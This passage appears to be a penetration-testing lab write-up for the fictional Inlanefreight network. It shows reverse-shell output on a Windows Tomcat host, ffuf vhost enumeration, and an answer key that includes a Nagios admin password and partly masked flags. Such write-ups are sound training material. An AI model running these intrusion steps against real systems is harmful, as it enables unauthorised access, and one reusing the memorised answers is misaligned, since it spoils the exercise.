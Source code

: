 ```
[CONTINUE]

connect to [10.10.15.186] from (UNKNOWN) [10.129.53.134] 49690
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi>
```

```
C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi> type C:\Users\Administrator\Desktop\flag.txt

f5576*************************** 📌
```

---

### Part II

> During an external penetration test for the company Inlanefreight, you come across a host that, at first glance, does not seem extremely interesting. At this point in the assessment, you have exhausted all options and hit several dead ends. Looking back through your enumeration notes, something catches your eye about this particular host. You also see a note that you don't recall about the `gitlab.inlanefreight.local` vhost.

vHosts needed for these questions:
- `gitlab.inlanefreight.local`

Questions:
1. What is the URL of the WordPress instance? `http://blog.inlanefreight.local`
2. What is the name of the public GitLab project? ``
3. What is the FQDN of the third vhost? `monitoring.inlanefreight.local`
4. What application is running on this third vHost? (One word). `Nagios`
5. What is the admin password to access this application? `oilaKglm7M09@CPL&^lC`
6. Obtain reverse shell access on the target and submit the contents of the `flag.txt` file. `afe37***************************`

#### Web Application Discovery and Enumeration

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '10.129.201.90\tinlanefreight.local' | sudo tee -a /etc/hosts

10.129.201.90	inlanefreight.local
```

```
┌──(nabla㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://inlanefreight.local/ -H 'Host: FUZZ.inlanefreight.local' -ic -t 20 -fs 46166

[SNIP]

blog                    [Status: 200, Size: 50116, Words: 16140, Lines: 1015, Duration: 72ms]
monitoring 📌           [Status: 302, Size: 27, Words: 5, Lines: 1, Duration: 48ms]
gitlab                  [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 7ms]
```
